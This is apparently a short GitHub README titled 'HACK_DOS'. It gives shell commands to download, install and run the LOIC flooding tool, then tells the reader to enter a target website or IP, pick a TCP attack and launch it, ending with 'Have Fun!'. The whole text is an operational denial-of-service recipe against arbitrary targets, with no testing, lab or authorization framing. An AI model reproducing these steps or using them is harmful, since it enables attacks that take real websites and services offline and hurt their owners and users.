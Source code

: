 # HACK_DOS
Denial of Service attack

# Linux commands:
>> apt install git-core monodevelop



>> cd Desktop



>> mkdir loic



>> wget https://raw.github.com/nicolargo/loicinstaller/master/loic.sh



>> chmod 777 loic.sh



>> ./loic.sh install



>> ./loic.sh update



>> apt-get install mono-gmcs



>> ./loic.sh run


Then a LOIC GUI will be opened.]
Then copy and paste or type the website name or enter the IP.
Then enter the type of attack - TCP attack
Select time delay
Select launch attack
Have Fun!
